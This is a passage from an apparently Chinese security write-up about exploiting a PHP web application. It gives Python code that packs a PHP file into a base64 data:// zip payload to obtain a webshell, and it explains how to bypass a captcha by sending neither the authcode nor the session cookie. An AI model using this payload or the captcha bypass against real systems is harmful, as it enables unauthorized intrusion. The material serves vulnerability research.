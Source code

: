 上面的利用步骤稍显繁琐，压缩包 payload 的构造直接使用 Python 来实现，做到在减少环境依赖的同时也能开箱即用。

```bash
def get_shell_payload(shell_name="1.php", shell_content="<?php phpinfo();?>"):
    import zipfile
    import base64
    import io
    zip_data = io.BytesIO()

    # 创建一个ZipFile对象，但将其关联到内存中的文件对象
    with zipfile.ZipFile(zip_data, 'w', zipfile.ZIP_DEFLATED, False) as zipf:
        file_contents = shell_content
        zipf.writestr(shell_name, file_contents)

    # 获取内存中的压缩包数据
    zip_data.seek(0)  # 将文件指针移至开头
    zip_binary = zip_data.read()
    # base64
    payload = "data://text/plain;base64,{}".format(base64.b64encode(zip_binary).decode())
    return payload
```

## Py 全自动 GetShell

  作为一个合格的漏洞利用程序，那么它的目标一定是不希望使用者要去进行交互获取到一定信息再填入到程序里面，比如本次的漏洞利用需要第一次的验证码，那么真如上文所述那样真的没有办法么？

让我们仔细看一下负责验证码的代码

[![](assets/1701606448-2045ab58d9ae61e3ad69fcef6d3e44ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203413-6fe8bc46-8dea-1.png)

`$_SESSION` 这个变量跟`Cookie:PHPSESSID`有关，所以思路很简单，同时去掉`authcode`和`session`，让他们的值都为`NULL`就可以绕过验证码了

[![](assets/1701606448-81f2df1ccfb2cdb6eb5143e9343a5418.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203418-730a69d8-8dea-1.png)

